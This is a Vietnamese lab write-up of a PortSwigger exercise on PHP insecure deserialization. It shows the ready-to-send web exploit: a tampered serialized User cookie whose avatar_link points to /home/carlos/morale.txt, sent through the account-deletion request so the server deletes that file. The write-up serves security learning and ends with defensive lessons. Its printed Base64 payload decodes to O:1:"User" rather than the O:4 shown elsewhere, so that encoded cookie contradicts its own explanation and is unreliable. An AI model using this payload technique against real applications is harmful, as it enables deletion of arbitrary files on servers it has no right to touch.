 # Write-up: Using application functionality to exploit insecure deserialization

### Tổng quan
Khai thác lỗ hổng **Insecure Deserialization** trong ứng dụng PHP, nơi cookie `session` chứa đối tượng serialized `User` được xử lý mà không kiểm tra tính toàn vẹn. Bằng cách sửa đổi thuộc tính `avatar_link` trong đối tượng serialized thành `/home/carlos/morale.txt`, kẻ tấn công tận dụng chức năng xóa tài khoản (`POST /my-account/delete`) để xóa tệp, hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng **Insecure Deserialization** bằng cách sửa đổi đối tượng `User` serialized trong cookie `session`, đặt `avatar_link` thành `/home/carlos/morale.txt`, và sử dụng chức năng xóa tài khoản để xóa tệp, hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**  
- Đăng nhập với tài khoản `wiener:peter` và vào `/my-account`, chọn chức năng **Delete account**. 
     
    ![Cookie session Base64](./images/1_cookie.png) 
      ![delete](./images/2_delete.png)
- Quan sát request trong Burp Proxy:  
  ```
  POST /my-account/delete HTTP/2
  Host: 0a9i007h08ij9012d0ef067800gh00ed.web-security-academy.net
  Cookie: session=Tzo0OiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1cHBzZ3M1MzB6cmpydzN2eHFybmRoMjN0bnZlbTM0diI7czoxMToiYXZhdGFyX2xpbmsiO3M6MTk6InVzZXJzL3dpZW5lci9hdmF0YXIiO30=
  ```  
- **Phân tích cookie**:  
  - Cookie `session` chứa dữ liệu Base64, giải mã ra đối tượng serialized:  
    ```php
    O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"uppsgs530zrjrw3vxqrndh23tnvem34v";s:11:"avatar_link";s:19:"users/wiener/avatar";}
    ```  
    
    ![Payload thực thi xóa tệp](./images/3_decode.png)  
  - Chức năng xóa tài khoản (`POST /my-account/delete`) sử dụng `avatar_link` (`users/wiener/avatar`) để xóa tệp avatar của tài khoản.  
  
  - Vì cookie được unserialize mà không kiểm tra tính toàn vẹn, attacker có thể sửa `avatar_link` để xóa tệp tùy ý:  

2. **Kiểm tra lỗ hổng Insecure Deserialization**  
- **Ý tưởng khai thác**:  
  - Sửa thuộc tính `avatar_link` trong đối tượng `User` thành `/home/carlos/morale.txt`.  
  - Khi gửi request `POST /my-account/delete`, server unserialize cookie, lấy `avatar_link` và xóa tệp `/home/carlos/morale.txt`.  
- **Payload**:  
  ```php
  O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"uppsgs530zrjrw3vxqrndh23tnvem34v";s:11:"avatar_link";s:23:"/home/carlos/morale.txt";}
  ```  
- **Giải thích payload**:  
  - Giữ nguyên `username` và `access_token` để request hợp lệ.  
  - Sửa `avatar_link` thành `/home/carlos/morale.txt` để chức năng xóa tài khoản xóa tệp này:

3. **Khai thác (Exploitation)**  
- Đăng nhập với tài khoản `wiener:peter`, lấy cookie `session` từ Burp Proxy.  
- Mã hóa payload thành Base64:  
  ```
  TzoxOiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1cHBzZ3M1MzB6cmpydzN2eHFybmRoMjN0bnZlbTM0diI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
  ```  
  ![encode](./images/4_encode.png)
- Trong Burp Repeater, gửi request:  
  ```
  POST /my-account/delete HTTP/2
  Host: 0a9i007h08ij9012d0ef067800gh00ed.web-security-academy.net
  Cookie: session=TzoxOiJVc2VyIjozOntzOjg6InVzZXJuYW1lIjtzOjY6IndpZW5lciI7czoxMjoiYWNjZXNzX3Rva2VuIjtzOjMyOiJ1cHBzZ3M1MzB6cmpydzN2eHFybmRoMjN0bnZlbTM0diI7czoxMToiYXZhdGFyX2xpbmsiO3M6MjM6Ii9ob21lL2Nhcmxvcy9tb3JhbGUudHh0Ijt9
  ```  
  ![delete](./images/5_delete2.png)
- Server unserialize cookie, lấy `avatar_link` và xóa tệp `/home/carlos/morale.txt`:  
    
- **Ý tưởng payload**:  
  - Sửa `avatar_link` trong đối tượng `User` serialized thành `/home/carlos/morale.txt`, tận dụng chức năng xóa tài khoản để xóa tệp.  
- **Kết quả**:  
  - Lab xác nhận tệp `/home/carlos/morale.txt` bị xóa, hoàn thành lab:  
    ![Lab hoàn thành](./images/6_solved.png)  

### Bài học rút ra
- Hiểu cách khai thác **Insecure Deserialization** trong PHP bằng cách sửa đổi đối tượng `User` serialized, tận dụng chức năng ứng dụng (xóa tài khoản) để thực thi lệnh xóa tệp.  
- Nhận thức tầm quan trọng của việc tránh deserialize dữ liệu người dùng, sử dụng digital signature để kiểm tra tính toàn vẹn, kiểm tra nghiêm ngặt kiểu dữ liệu, hoặc thay thế bằng định dạng an toàn như JSON để ngăn chặn các cuộc tấn công deserialization.

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác **Insecure Deserialization** trong PHP bằng cách lợi dụng chức năng ứng dụng, nhấn mạnh tầm quan trọng của việc bảo vệ dữ liệu serialized và kiểm tra đầu vào để ngăn chặn thực thi lệnh tùy ý. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 9/2025.*